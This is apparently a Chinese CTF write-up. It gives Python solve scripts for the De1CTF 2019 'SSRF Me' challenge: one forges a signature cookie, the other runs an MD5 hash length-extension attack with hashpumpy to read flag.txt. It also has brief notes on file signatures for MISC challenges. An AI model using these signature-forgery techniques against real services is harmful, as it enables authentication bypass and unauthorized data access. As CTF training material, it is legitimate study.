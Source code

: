 ### [MD5](http://buuoj.cn/challenges#[De1CTF%202019]SSRF%20Me)
md5(key + param + scan)

则action=scan下param=flag.txtread获取到的sign就是action=readscan下param=flag.txt的sign
```py
def method1():
    import requests
    # param=flag.txtread -> sign
    url = 'http://13f3662d-d04c-481d-aae0-44fcebb4e36a.node5.buuoj.cn:81/De1ta?param=flag.txt'
    cookie = {
        'sign': '2773787e4b7f1e4ea8cbd60bdaff5f3f',
        'action': 'readscan'
    }
    responds = requests.get(url=url, cookies=cookie)
    print(responds.text)

def method2():
    import hashpumpy
    origin_hash = '129c0841cb12ef2e91a78a0676471f03'
    key_len = 16
    message = 'flag.txtscan'
    append = 'read'
    new_hash, new_message = hashpumpy.hashpump(origin_hash, message, append, key_len)
    print(new_hash)
    print(new_message)
    from urllib.parse import quote
    print(quote(new_message)[8:])

    import requests
    url = 'http://13f3662d-d04c-481d-aae0-44fcebb4e36a.node5.buuoj.cn:81/De1ta?param=flag.txt'
    cookie = {
        'sign': new_hash,
        'action': quote(new_message)[8:]
    }
    responds = requests.get(url=url, cookies=cookie)
    print(responds.text)
```

# 3 MISC
### [FILE](http://buuoj.cn/challenges#[%E7%AC%AC%E4%B8%83%E7%AB%A0][7.2.5%20%E6%A1%88%E4%BE%8B%E8%A7%A3%E6%9E%90][NISACTF%202022]huaji%EF%BC%9F)
JPG文件头`FFD8FFE0`，文件尾`FFD9`。zip文件头`504B0304`。

使用unzip解压失败，说是版本问题？改用`7z x sub.zip -p"ctf_NISA_2022"`才解压成功。

### [Audio](https://buuoj.cn/challenges#[%E7%AC%AC%E4%B8%83%E7%AB%A0][7.3.5%20%E6%A1%88%E4%BE%8B%E8%A7%A3%E6%9E%90][SCTF%202021]in_the_vaporwaves)
